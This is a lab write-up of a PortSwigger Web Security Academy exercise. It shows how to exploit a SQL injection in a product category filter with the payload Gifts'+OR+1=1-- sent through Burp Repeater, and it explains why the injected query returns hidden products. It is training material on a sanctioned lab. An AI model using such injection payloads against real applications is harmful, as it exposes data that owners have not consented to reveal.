

# SQL Injection Lab: Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data

**Platform:** PortSwigger Web Security Academy  
**Difficulty:** Apprentice  
**Date Completed:** 22 November 2026  
**Status:** Solved

---

## Lab Description

This lab contains a SQL injection vulnerability in the product category filter. The application uses a vulnerable SQL query similar to:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

The goal is to retrieve hidden products that are not normally displayed.

---

## Tools Used

- Burp Suite Community Edition (Proxy + Repeater)
- Firefox with FoxyProxy

---

## Solution Steps

### 1. Intercept the Request

1. Open the lab and navigate to any product category (e.g. **Gifts**).
2. In Burp Suite, open **Proxy → HTTP history**.
3. Find the request:

```http
GET /filter?category=Gifts HTTP/2
```

4. Right-click the request → **Send to Repeater**.

### 2. Modify the Payload

In the **Repeater** tab, change the `category` parameter to:

```http
Gifts'+OR+1=1--
```

**Final request:**

```http
GET /filter?category=Gifts'+OR+1=1-- HTTP/2
Host: <lab-id>.web-security-academy.net
...
```

### 3. Send the Request

Click **Send** and examine the **Response**.

The response now contains additional products that were previously hidden.

---

## Why the Payload Works

The original query looks like this:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

After injecting `Gifts'+OR+1=1--`, the query becomes:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

Explanation:
- The single quote `'` closes the original string.
- `OR 1=1` makes the condition always true.
- `--` comments out the rest of the query (including the original closing quote and the `released = 1` condition).

As a result, the database returns **all** products.

---

## Screenshot



In the response you can see the lab banner marked as solved (`academyLabBanner is-solved`).

---

## Key Takeaways

- Classic boolean-based SQL injection in a `WHERE` clause.
- Importance of properly closing the string and commenting out the remainder of the query.
- Using Burp Suite Repeater is the most convenient way to test and refine injection payloads.
- Even simple payloads like `' OR 1=1--` are still very effective against vulnerable applications.

---

## References

- [PortSwigger - SQL injection](https://portswigger.net/web-security/sql-injection)
- [Lab link](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)
